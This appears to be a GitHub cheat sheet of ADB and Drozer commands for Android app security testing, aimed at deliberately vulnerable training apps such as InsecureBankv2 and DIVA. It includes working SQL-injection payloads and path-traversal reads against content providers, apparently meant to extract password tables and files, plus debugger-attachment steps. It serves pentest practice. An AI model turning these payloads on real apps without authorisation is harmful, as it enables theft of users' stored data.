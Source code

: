 # adb-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs
```
adb install <apkname>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

Forwarding Ports
```
adb forward tcp:hostport tcp:androidport
adb reverse tcp:androidport tcp:hostport
```


## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
**DROZER Intent options for Activity, Broadcast, Service**
```
-a is used to specify action example: -a android.intent.action.VIEW
--extra is to specify strings example: --extra key value
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii"
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
```

DROZER Activities
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```
DROZER broadcasts
```
dz> run app.broadcast.info -a jakhar.aseem.diva  #listing broadcast
dz> run app.broadcast.start --component jakhar.aseem.diva jakhar.aseem.diva.BroadCast  #starting Broadcast
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```
DROZER services
```
dz> run app.service.info -a jakhar.aseem.diva  #listing services
dz> run app.service.start --component jakhar.aseem.diva jakhar.aseem.diva.TestService  #starting Services
```


#### Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER contentproviders
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

DROZER ATTACK SURFACE SCAN & MANIFEST READ
```
dz> run app.package.attacksurface jakhar.aseem.diva    #attack surface listing
dz> run app.package.manifest jakhar.aseem.diva     #manifest file listing
```

Debuggable app connection</br>
Open debuggable app then run below command
```
adb jdwp   #it shows the port to socket of dubuggale app
```
Forward the host tcpport to socketport of debuggable android app
```
adb forward tcp:7777 jdwp:12167
```
Attach jdb to it(jdb by default comes with platform-packages)
```
jdb -attach localhost:7777
```
